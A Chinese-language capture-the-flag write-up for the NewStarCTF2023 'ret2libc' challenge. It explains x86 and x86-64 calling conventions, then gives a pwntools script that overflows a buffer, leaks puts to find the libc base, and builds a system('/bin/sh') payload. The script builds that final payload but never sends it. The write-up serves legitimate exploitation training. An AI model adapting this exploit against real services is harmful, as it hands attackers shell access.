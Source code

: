 # NewStarCTF2023-Week2-Pwn


# ret2libc

在解题之前先讲下32位和64位程序调用函数的区别：

## 32位调用方式

栈自顶而下分别是：被调函数，被调函数的返回地址，参数1，参数2，参数3（参数自右向左进入栈）

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/20200722103740464.PNG)

## 64位调用方式

前六个参数（如果有）依次存放在RDI，RSI，RDX，RCX，R8，R9上。如果还有参数，第七个参数开始，按照32位的方式放在栈上。

![img](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/20200722160228795.PNG)

这题题意非常清晰，就是标准的ret2libc，因此也不做其他解释。

这里远程地址的libc和本地不一样，而且大概率本地的libc在库中找不到。于是我采用了本地调用本地libc的，远程查询libc库的方法来解题，libc库的版本已经标识在代码中。

> 这里提供本地的exploit

```python
from pwn import *

context(arch = 'amd64', os = 'linux')
context.log_level='debug'
context.terminal = ['tmux','splitw','-h']
elf = ELF('./ret2libc')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

#r = remote('node4.buuoj.cn',29791)
r = process('./ret2libc')

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main = elf.sym['main']
ret_addr = 0x400506
pop_rdi_ret = 0x400763


payload = cyclic(0x28) + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(main)
r.sendafter(b'again\n',payload)

puts_addr = u64(r.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
info(hex(puts_addr))

#libc = libc6_2.27-3ubuntu1.5_amd64
libc_puts_addr = libc.sym['puts']
libc_system_addr = libc.sym['system']		
libc_bs_addr = 	next(libc.search(b'/bin/sh\x00'))	


libc_base = puts_addr - libc_puts_addr
system_addr = libc_base + libc_system_addr
bs_addr = libc_base + libc_bs_addr

gdb.attach(r)
payload = cyclic(0x28) + p64(ret_addr) + p64(pop_rdi_ret) + p64(bs_addr) + p64(system_addr)
#gdb.attach(r)
```